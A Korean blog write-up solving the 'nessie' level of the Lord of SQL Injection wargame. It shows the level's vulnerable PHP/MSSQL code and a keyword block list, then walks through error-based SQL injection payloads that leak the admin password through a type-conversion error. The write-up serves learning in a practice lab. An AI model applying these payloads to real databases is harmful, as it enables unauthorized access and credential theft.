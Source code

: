 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - nessie 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제의 이름은 `nessie`이다.  

이제 `SQLite`가 끝나고 `MSSQL`에서의 `SQL Injection` 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------
query : select id from prob_nessie where id='' and pw=''
-----------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect();
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select id from prob_nessie where id='{$_GET['id']}' and pw='{$_GET['pw']}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  sqlsrv_query($db,$query);
  if(sqlsrv_errors()) exit(mssql_error(sqlsrv_errors()));

  $query = "select pw from prob_nessie where id='admin'"; 
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['pw'] === $_GET['pw']) solve("nessie"); 
  highlight_file(__FILE__);
?>
```

문제를 풀기 위해서는 `id`가 `admin`인 행의 `pw`를 구해야 한다.  

`MSSQL`은 처음이라 인터넷에 검색을 해 보니, `MSSQL`에서 쿼리 오류 시 출력 해 주는 오류 구문을 가지고 `Error Based SQL Injection`을 하는 것 같다.  

그래서 가장 기본적으로 사용하는 `having`을 사용하기 위해 아래와 같이 입력했다.  

```
?id=a' having 1=1 --
```

그럼 완성되는 쿼리는 다음과 같다.  

```
select id from prob_nessie where id='a' having 1=1 --' and pw=''
```

`--`를 삽입했기 때문에 `having 1=1` 뒤의 `'and pw='`는 주석처리가 된다.  

즉, `select id from prob_nessie where id='a' having 1=1`만 실행이 되는데, 이 때 오류가 발생한다.  

`having` 구문은 `group by`절이 필요한데, 이 `group by` 절을 입력하지 않아 쿼리 오류가 발생하는 것이다.  

위의 값을 문제에 입력 해 보면 아래와 같은 오류가 발생한다.  

```
Error: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Column 'prob_nessie.id' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
```

친절하게 테이블 명과 컬럼 명을 알려준다.  

이런 방식으로 오류를 유발하여 `id`가 `admin`인 행의 `pw`를 유발하면 될 것 같다.  

고민을 하다가 `pw` 부분에서 `Type Confusion` 오류를 유발시켜 보았다.  

이를 위해 아래와 같이 입력 해 주었다.  

```
?id=admin&pw=1' or id='admin' and pw=1 -- 
```

완성되는 쿼리는 다음과 같다.  

```
select id from prob_nessie where id='admin' and pw='1' or id='admin' and pw=1 --'
```

앞의 `id='admin' and pw='1'`은 해당사항이 없기 때문에 뒤의 조건으로 넘어 갈 것이고, `id='admin' and pw=1`의 경우, `pw`는 `varchar` 형태이지만 내가 입력 한 값은 `1`, 정수이기 때문에 오류가 발생한다.  

```
Error: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Conversion failed when converting the varchar value 'uawe0f9ji34fjkl' to data type int.
```

친절하게 `pw`의 값을 출력 해 주었다.  

이제 이 값을 입력하면 문제를 풀 수 있다.  

```
?id=admin&pw=uawe0f9ji34fjkl
```

```php
------------------------------------------------------------------------------------------------
query : select id from prob_nessie where id='admin' and pw='uawe0f9ji34fjkl'
------------------------------------------------------------------------------------------------

NESSIE Clear!

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect();
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select id from prob_nessie where id='{$_GET['id']}' and pw='{$_GET['pw']}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  sqlsrv_query($db,$query);
  if(sqlsrv_errors()) exit(mssql_error(sqlsrv_errors()));

  $query = "select pw from prob_nessie where id='admin'"; 
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['pw'] === $_GET['pw']) solve("nessie"); 
  highlight_file(__FILE__);
?>
```

`NESSIE Clear`